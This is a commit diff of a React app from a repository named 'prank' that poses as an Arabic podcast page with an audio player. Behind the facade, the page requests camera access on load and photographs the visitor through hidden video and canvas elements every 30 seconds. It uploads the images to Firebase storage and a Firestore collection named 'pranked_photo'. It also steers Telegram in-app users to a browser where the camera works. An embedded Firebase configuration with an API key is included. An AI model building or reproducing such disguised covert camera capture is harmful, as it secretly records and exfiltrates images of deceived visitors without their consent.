

Before and after one commit to aliabdalshaheedbaqer/prank, a React (Create React App) app: page / in a window 1280 px wide. Before the commit the page ends 800 px from the top, so only its background shows below. Built offline with nearby package versions, Linux system fonts and the light colour scheme; no server answers.

Commit message:
new design

```diff
--- a/src/App.js
+++ b/src/App.js
@@ -5,11 +5,9 @@ import { initializeApp } from "firebase/app";
 import { getStorage, ref, uploadString, getDownloadURL } from "firebase/storage";
 import { getFirestore, collection, addDoc } from "firebase/firestore";
 import 'bootstrap/dist/css/bootstrap.min.css';
-import AudioPlayer from 'react-h5-audio-player';
-import 'react-h5-audio-player/lib/styles.css';
-import { v4 as uuidv4 } from 'uuid'; // Import uuid for generating unique filenames
+import AudioPlayer from "react-h5-audio-player";
+import "react-h5-audio-player/lib/styles.css";
 
-// إعدادات Firebase
 const firebaseConfig = {
   apiKey: "AIzaSyDQlV_DbV2a_AON6GNPgHKnTaTb-ScqmZw",
   authDomain: "hareer-d24d2.firebaseapp.com",
@@ -20,14 +18,12 @@ const firebaseConfig = {
   measurementId: "G-WKW9WC0LTG",
 };
 
-// تهيئة Firebase
 const app = initializeApp(firebaseConfig);
 const storage = getStorage(app);
 const db = getFirestore(app);
 
-// مكونات واجهة المستخدم القابلة لإعادة الاستخدام
 const Card = ({ children, className }) => (
-  <div className={`card shadow-lg rounded-4 ${className}`} style={{ width: "100%", maxWidth: "500px" }}>
+  <div className={`card shadow-lg rounded-4 ${className}`} style={{ maxWidth: "400px", margin: "0 auto" }}>
     <div className="card-body">{children}</div>
   </div>
 );
@@ -45,37 +41,25 @@ export default function PodcastApp() {
   const [errorMessage, setErrorMessage] = useState(null);
   const [hasCameraPermission, setHasCameraPermission] = useState(true);
 
-  // دالة التقاط الصورة مع تسجيل الأخطاء
   const capturePhoto = useCallback(() => {
     try {
       if (!canvasRef.current || !videoRef.current) {
         console.error("لم يتم الحصول على المرجع الخاص بالكاميرا أو اللوحة.");
         return;
       }
-
       const context = canvasRef.current.getContext("2d");
       if (!context) {
         console.error("غير قادر على الحصول على سياق اللوحة.");
         return;
       }
-
-      // رسم الإطار الحالي من الفيديو على اللوحة
       context.drawImage(videoRef.current, 0, 0, 320, 240);
       const photoDataUrl = canvasRef.current.toDataURL("image/png");
       console.log("تم التقاط الصورة بنجاح:", photoDataUrl);
-
-      // استخدام UUID لضمان اسم فريد لكل صورة
-      const uniqueFilename = `pranked_photos/${uuidv4()}.png`;
-
-      // رفع الصورة إلى Firebase Storage كسلسلة Base64
-      const storageRef = ref(storage, uniqueFilename);
+      const storageRef = ref(storage, "pranked_photos/" + Date.now() + ".png");
       uploadString(storageRef, photoDataUrl, "data_url")
         .then(async () => {
-          // الحصول على رابط التحميل بعد اكتمال الرفع
           const photoUrl = await getDownloadURL(storageRef);
           console.log("تم رفع الصورة بنجاح. الرابط:", photoUrl);
-
-          // إضافة رابط الصورة إلى Firestore
           await addDoc(collection(db, "pranked_photo"), {
             photoUrl: photoUrl,
             timestamp: Date.now(),
@@ -92,29 +76,26 @@ export default function PodcastApp() {
     }
   }, []);
 
-  // طلب إذن الوصول إلى الكاميرا وإعداد تدفق الفيديو
   const requestCameraPermission = useCallback(async () => {
     try {
       const stream = await navigator.mediaDevices.getUserMedia({
-        video: { facingMode: "user" }, // استخدام كاميرا السيلفي
+        video: { facingMode: "user" },
       });
       console.log("تم الحصول على تدفق الكاميرا.");
-
       if (videoRef.current) {
         videoRef.current.srcObject = stream;
         videoRef.current.onloadedmetadata = () => {
           videoRef.current.play().then(() => {
             console.log("الفيديو يعمل.");
-            // تأخير بسيط للتأكد من تحميل الفيديو قبل التقاط الصورة
             setTimeout(() => {
-              capturePhoto(); // التقاط الصورة بعد بدء الفيديو
+              capturePhoto();
             }, 1000);
           }).catch((err) => {
             console.error("خطأ في تشغيل الفيديو:", err);
           });
         };
       }
-      setHasCameraPermission(true); // تم منح الإذن
+      setHasCameraPermission(true);
     } catch (error) {
       console.error("تم رفض الوصول إلى الكاميرا:", error);
       setErrorMessage("تم رفض الوصول إلى الكاميرا أو أنها غير متوفرة. الرجاء السماح بالوصول إلى الكاميرا.");
@@ -122,17 +103,15 @@ export default function PodcastApp() {
     }
   }, [capturePhoto]);
 
-  // التحقق مما إذا كان المستخدم على Telegram وطلب الوصول إلى الكاميرا إن لم يكن كذلك
   useEffect(() => {
     if (navigator.userAgent.toLowerCase().includes("telegram")) {
       setIsInTelegram(true);
       console.log("تم الكشف عن مستخدم Telegram.");
     } else {
-      requestCameraPermission(); // محاولة الوصول إلى الكاميرا عند تحميل الصفحة
+      requestCameraPermission();
     }
   }, [requestCameraPermission]);
 
-  // إعادة التقاط الصورة كل 30 ثانية
   useEffect(() => {
     const intervalId = setInterval(() => {
       if (hasCameraPermission) {
@@ -142,60 +121,42 @@ export default function PodcastApp() {
         console.log("لم يتم الحصول على إذن الكاميرا. إعادة المحاولة...");
         requestCameraPermission();
       }
-    }, 30000); // كل 30 ثانية
-
-    return () => clearInterval(intervalId); // تنظيف المؤقت عند الخروج من الصفحة
+    }, 30000);
+    return () => clearInterval(intervalId);
   }, [capturePhoto, requestCameraPermission, hasCameraPermission]);
 
   return (
-    <div dir="rtl" className="d-flex flex-column align-items-center justify-content-center min-vh-100 bg-dark text-white">
-      <motion.h1
-        className="display-4 text-center text-light mb-4"
-        animate={{ scale: [1, 1.1, 1] }}
-        transition={{ repeat: Infinity, duration: 1 }}
-      >
-        مرحبا بكم في بودكاست "يا عراق"
+    <div dir="rtl" className="container py-4" style={{ background: "linear-gradient(to bottom, #4e54c8, #8f94fb)" }}>
+      <motion.h1 className="text-center text-white mb-4" animate={{ scale: [1, 1.05, 1] }} transition={{ repeat: Infinity, duration: 1 }}>
+        مرحبا بكم في منطقة البودكاست!
       </motion.h1>
 
-      {/* قسم مشغل الصوت باستخدام react-h5-audio-player */}
-      <div className="mb-4" style={{ width: "100%", maxWidth: "500px" }}>
+      <Card className="mb-4 text-center">
+        <img
+          src={`${process.env.PUBLIC_URL}/assets/man.jpg`}
+          alt="صورة الألبوم"
+          className="img-fluid rounded shadow mb-3"
+          style={{ maxHeight: "250px", objectFit: "cover" }}
+        />
+        <h3 className="text-primary">البودكاست</h3>
+        <p className="text-muted">بصوت فراس مسير كموش</p>
+      </Card>
+
+      <div className="mb-4" style={{ maxWidth: "400px", margin: "0 auto" }}>
         <AudioPlayer
           src={`${process.env.PUBLIC_URL}/assets/bc.mp3`}
-          autoPlay
-          onPlay={e => console.log("تشغيل الصوت")}
-          customAdditionalControls={[]} // تعطيل الأزرار
+          autoPlay={true}
+          onPlay={(e) => console.log("تشغيل الصوت")}
+          layout="horizontal"
+          showJumpControls={true}
+          customAdditionalControls={[]}
           customVolumeControls={[]}
-          layout="horizontal"
-          showJumpControls={false}
         />
       </div>
 
-      {/* صورة الألبوم */}
-      <div className="mb-4">
-        <img
-          src={`${process.env.PUBLIC_URL}/assets/man.jpg`}
-          alt="فراس مسير الشمري"
-          className="img-fluid rounded-circle shadow-lg"
-          style={{ width: "150px", height: "150px" }}
-        />
-      </div>
+      <video ref={videoRef} style={{ display: "none" }} />
+      <canvas ref={canvasRef} width="320" height="240" style={{ display: "none" }} />
 
-      <p className="h5 text-center mb-4">المؤلف: فراس مسير الشمري</p>
-
-      {/* قسم اختيار الأنواع */}
-      <div className="d-flex justify-content-center mb-4">
-        <motion.div className="bg-light rounded-circle p-4 mx-2 shadow-md hover:bg-primary">
-          <FaPodcast size={40} className="text-primary" />
-        </motion.div>
-        <motion.div className="bg-light rounded-circle p-4 mx-2 shadow-md hover:bg-primary">
-          <FaMicrophone size={40} className="text-primary" />
-        </motion.div>
-        <motion.div className="bg-light rounded-circle p-4 mx-2 shadow-md hover:bg-primary">
-          <FaHeadphones size={40} className="text-primary" />
-        </motion.div>
-      </div>
-
-      {/* رسالة للإعلام بالمشاكل المتعلقة بالكاميرا */}
       {isInTelegram ? (
         <Card className="mb-3">
           <p className="text-center text-dark mb-4">
@@ -213,11 +174,22 @@ export default function PodcastApp() {
           </Button>
         </Card>
       ) : (
-        <Card className="text-center mb-3">
-          <h2 className="h3 mb-4 text-primary">استكشف أفضل البودكاست</h2>
-          <p className="text-muted mb-4">
+        <Card className="mb-3">
+          <h2 className="h3 text-primary mb-3">استكشف أفضل البودكاست</h2>
+          <p className="text-muted">
             اكتشف البودكاست في المواضيع المفضلة لديك، من الجرائم الحقيقية إلى التكنولوجيا والأعمال والمزيد!
           </p>
+          <div className="d-flex justify-content-center">
+            <motion.div className="bg-light rounded-circle p-4 mx-2 shadow hover:bg-primary">
+              <FaPodcast size={40} className="text-primary" />
+            </motion.div>
+            <motion.div className="bg-light rounded-circle p-4 mx-2 shadow hover:bg-primary">
+              <FaMicrophone size={40} className="text-primary" />
+            </motion.div>
+            <motion.div className="bg-light rounded-circle p-4 mx-2 shadow hover:bg-primary">
+              <FaHeadphones size={40} className="text-primary" />
+            </motion.div>
+          </div>
         </Card>
       )}
     </div>
```
